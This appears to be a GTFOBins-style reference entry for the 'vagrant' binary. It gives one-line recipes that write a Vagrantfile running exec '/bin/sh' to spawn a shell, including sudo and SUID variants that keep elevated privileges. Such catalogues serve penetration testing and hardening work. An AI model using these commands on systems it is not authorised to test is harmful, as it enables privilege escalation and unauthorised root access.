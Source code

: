 ```yaml
---
description: This allows to execute [`ruby`](/gtfobins/ruby/) code, other functions may apply.
functions:
  shell:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh"' > Vagrantfile
        vagrant up
  sudo:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh"' > Vagrantfile
        vagrant up
  suid:
    - code: |
        cd $(mktemp -d)
        echo 'exec "/bin/sh -p"' > Vagrantfile
        vagrant up
---
```


